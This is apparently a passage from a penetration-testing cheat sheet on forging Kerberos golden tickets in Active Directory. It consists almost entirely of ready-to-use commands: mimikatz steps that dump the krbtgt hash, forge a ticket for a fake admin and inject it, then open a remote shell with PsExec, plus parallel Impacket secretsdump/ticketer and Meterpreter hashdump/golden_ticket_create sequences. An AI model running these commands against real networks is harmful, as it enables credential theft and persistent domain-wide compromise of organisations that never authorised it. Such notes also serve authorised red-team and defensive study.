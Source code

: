 ```
mimikatz # lsadump::lsa [/patch | /inject] /name:krbtgt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain_name> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /ptt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain_name> /sid:<sid> /aes256:<aes256_hash> /groups:512,513,519 /startoffset:-1 /endin:2500 /renewmax:3000 /ptt

mimikatz # misc::cmd

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

### 1.2 - Impacket

Get the Domain SID.

`$ lookupsid <domain_name>/<username>:<password>@<IP>`

Then dump the hashes.

`$ secretsdump -just-dc-ntlm <domain_name>/<username>:<password>@<IP>`

Convert it to golden ticket. Exclude the RID from the last 3 digits.

`$ ticketer -nthashes <ntlm_hash> -domain-sid <sid_user> -domain <domain_name> <username_to_impersonate>`

### 1.3 - Metasploit

#### 1.3.1 - Meterpreter

- Dump the credentials

```
meterpreter > hashdump

meterpreter > run post/windows/gather/smart_hashdump
```

- Create a golden ticket for persistence

`meterpreter > golden_ticket_create -u <username> -d <domain_name> -k <NTLM_hash> -s <SID> -t /path/to/export/golden_ticket.kirbi`

- List kerberos tickets.

```
msf > klist

meterpreter > kerberos_ticket_list
```

- Pretty sure when you ran the golden_ticket module it should've stored somewhere on `/home/$USER/.msf4/loot/` or `/root/.msf4/loot/`

`meterpreter > kerberos_ticket_use <golden_ticket>`

